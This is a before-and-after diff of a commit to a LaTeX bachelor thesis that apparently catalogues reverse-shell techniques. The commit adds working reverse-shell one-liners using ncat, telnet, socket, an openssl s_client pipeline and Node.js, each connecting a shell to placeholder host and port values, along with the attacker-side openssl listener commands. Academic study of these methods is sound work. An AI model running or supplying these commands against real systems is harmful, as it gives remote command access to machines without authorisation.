

Before and after one commit to matusbucher/bachelor-thesis, a LaTeX thesis (thesis/main.tex, which reads thesis/chapters/chapter01.tex): two parts of pages 23 and 24 of 31, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add socket, openssl, node, socat

```diff
--- a/thesis/chapters/chapter01.tex
+++ b/thesis/chapters/chapter01.tex
@@ -83,24 +83,41 @@ ncat -e |\shell| |\host| |\port|
 \end{cmdline}
 \notte{Standard error output of executed commands is not redirected to the socket. Option \texttt{-c} (\texttt{-{}-sh-exec}) can be used instead of \texttt{-e} with the same syntax, but \texttt{/bin/sh} is needed in that case.}
 
-\begin{cmdline}{bash}{^}{mkfifo,cat,nc}{}
-mkfifo ^\file^; cat ^\file^ | ^\shell^ 2>&1 | nc ^\host^ ^\port^ >^\file^
+\begin{cmdline}{bash}{^}{mkfifo,ncat}{}
+mkfifo ^\file^; ^\shell^ < ^\file^ 2>&1 | ncat ^\host^ ^\port^ > ^\file^; rm ^\file^
 \end{cmdline}
-\dpd{\texttt{mkfifo}, \texttt{cat}}
+\dpd{\texttt{mkfifo}}
 
-\subsection{Telnet}
+\subsection{Telnet (\texttt{telnet})}
 
 \begin{cmdline}{bash}{^}{telnet}{}
 telnet ^\host^ ^\port^ | ^\shell^ 2>&1 | telnet ^\host^ ^\portt^
 \end{cmdline}
-\notte{The socket with port number \port serves as standard input while the socket with port number \portt serves as standard output and standard error output.}
+\notte{The socket with port number \port\ serves as standard input while the socket with port number \portt\ serves as standard output and standard error output.}
 
-\begin{cmdline}{bash}{^}{mkfifo,cat,telnet}{}
-mkfifo ^\file^; cat ^\file^ | ^\shell^ 2>&1 | telnet ^\host^ ^\port^ >^\file^
+\begin{cmdline}{bash}{^}{mkfifo,telnet}{}
+mkfifo ^\file^; ^\shell^ < ^\file^ 2>&1 | telnet ^\host^ ^\port^ > ^\file^; rm ^\file^
 \end{cmdline}
-\dpd{\texttt{mkfifo}, \texttt{cat}}
+\dpd{\texttt{mkfifo}}
 
-\subsection{OpenSSL}
+\subsection{Socket (\texttt{socket})}
+
+\begin{cmdline}{bash}{|}{socket}{}
+socket -qvp '|\shell|' |\host| |\port|
+\end{cmdline}
+
+\subsection{OpenSSL (\texttt{openssl})}
+
+\begin{cmdline}{bash}{^}{mkfifo, openssl}{}
+mkfifo ^\file^; ^\shell^ < ^\file^ 2>&1 | openssl s_client -quiet -connect ^\host^:^\port^ > ^\file^; rm ^\file^
+\end{cmdline}
+
+\TODO{describe/explain commands that need to be run on attacker machine:}
+
+\begin{cmdline}{bash}{|}{openssl}{}
+openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
+openssl s_server -quiet -key key.pem -cert cert.pem -port |\port|
+\end{cmdline}
 
 
 \section{Programming languages interpreters}
@@ -113,5 +130,10 @@ mkfifo ^\file^; cat ^\file^ | ^\shell^ 2>&1 | telnet ^\host^ ^\port^ >^\file^
 
 \subsection{Ruby}
 
+\subsection{Node.js (\texttt{node})}
+
+\begin{cmdline}{bash}{|}{node}{}
+node -e 'shell = require("child_process").spawn("|\shell|"); require("net").connect(|\port|, "|\host|", function () { this.pipe(shell.stdin); shell.stdout.pipe(this); shell.stderr.pipe(this); })'
+\end{cmdline}
 
 \section{Other tools}
--- a/thesis/main.tex
+++ b/thesis/main.tex
@@ -49,11 +49,11 @@
 % definovanie prikazu pre TODO poznamku
 \newcommand{\TODO}[1]{\textcolor{blue}{TODO -- #1}}
 
-\newcommand{\shell}{\textcolor{placeholder}{<SHELL>}}
-\newcommand{\host}{\textcolor{placeholder}{<HOST>}}
-\newcommand{\port}{\textcolor{placeholder}{<PORT>}}
-\newcommand{\portt}{\textcolor{placeholder}{<PORT2>}}
-\newcommand{\file}{\textcolor{placeholder}{<FILE>}}
+\newcommand{\shell}{\textcolor{placeholder}{\texttt{$\langle$SHELL$\rangle$}}}
+\newcommand{\host}{\textcolor{placeholder}{\texttt{$\langle$HOST$\rangle$}}}
+\newcommand{\port}{\textcolor{placeholder}{\texttt{$\langle$PORT$\rangle$}}}
+\newcommand{\portt}{\textcolor{placeholder}{\texttt{$\langle$PORT2$\rangle$}}}
+\newcommand{\file}{\textcolor{placeholder}{\texttt{$\langle$FILE$\rangle$}}}
 
 \newenvironment{cmdframe}
 	{\begin{mdframed}[
```
Also changed, not shown: reverseshell/methodlist.txt (+4 -0 lines), reverseshell/Makefile, thesis/chapters/chapter01.tex (13 more changed lines), 2 other files.
